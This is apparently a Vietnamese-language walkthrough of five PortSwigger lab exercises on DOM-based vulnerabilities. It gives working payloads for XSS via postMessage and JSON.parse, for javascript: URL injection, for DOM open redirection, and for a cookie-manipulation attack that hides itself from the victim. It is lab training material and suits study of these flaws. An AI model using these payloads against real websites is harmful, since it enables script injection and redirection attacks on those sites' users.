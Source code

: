 # DOM-based vulnerabilities

### 1. DOM XSS using web messages
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages

Context: Dùng hàm `addEventListener()` để lắng nghe message.

![alt text](image.png)

Nó sẽ lắng nghe để gắng quảng cáo vào trang web. 

Tạo 1 iframe ở server exploit, iframe này dẫn đến trang web cần exploit và có gửi thêm message, payload:

`<iframe src="https://0a3e00fa03d89772812011d8009c002a.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

![alt text](image-1.png)

---

### 2. DOM XSS using web messages and a JavaScript URL
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url

Context: Dùng hàm `addEventListener()` + sink: `location.href` + URL cần có `http/https`

![alt text](image-2.png)

Payload: `<iframe src="https://0a60005c0338391482ef47cf007b003b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`

---

### 3. DOM XSS using web messages and `JSON.parse`
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse

Context: `addEventListener` + message dạng JSON

![alt text](image-3.png)

Ở đây ta thấy có thêm điều kiện `type=load-channel` để có thể được gán `src` = `d.url`.

Payload: `<iframe src=https://0a9b004b04098a3c80aa857e0066000e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

---

### 4. DOM-based open redirection
https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection

Context: sink `location.href`, parameter `url` sẽ chứa đường dẫn để turn back

![alt text](image-4.png)

Payload: `https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/`

Ta đặt `url` chuyển hướng về server exploit

---

### 5. DOM-based cookie manipulation
https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

Context: code tạo cookie phía client `lastViewedProduct` để lưu trang cuối cùng đã xem 

![alt text](image-5.png)

Nhưng giá trị này sẽ lấy tất cả path phía sau và không có filter, vì thế ta sẽ chèn `'` để thoát ra và chèn thêm mã js vào. 

Payload: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">`

Iframe này dẫn đến 1 bài post và có thêm mã js, sau đó cookie sẽ lưu lại, và cũng trong iframe này, sự kiện onload ngay lập tức đưa về trang chủ để cookie không bị sửa đổi cũng như người dùng không phát hiện. Và khi người dùng tải lại trang chủ mã sẽ thực thi tự động vì page có:

![alt text](image-6.png)

Còn 2 bài expert













